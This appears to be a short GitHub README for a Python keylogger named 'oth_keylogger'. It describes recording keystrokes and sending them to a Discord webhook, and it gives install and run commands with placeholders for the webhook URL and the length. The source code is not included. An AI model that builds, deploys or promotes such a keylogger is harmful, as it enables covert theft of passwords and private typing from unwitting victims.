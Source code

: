 # oth_keylogger
Over the Network Keylogger is a simple python based program that keeps track of your keystrokes. The recorded keystrokes will be sent by Discord's webhook after a certain length of character has been reached.   
# Installation
```
pip install -r requirements.txt
```
# How to Use
```
python keylogger.py --url=<WEBHOOK_URL> --length=<LENGTH>
```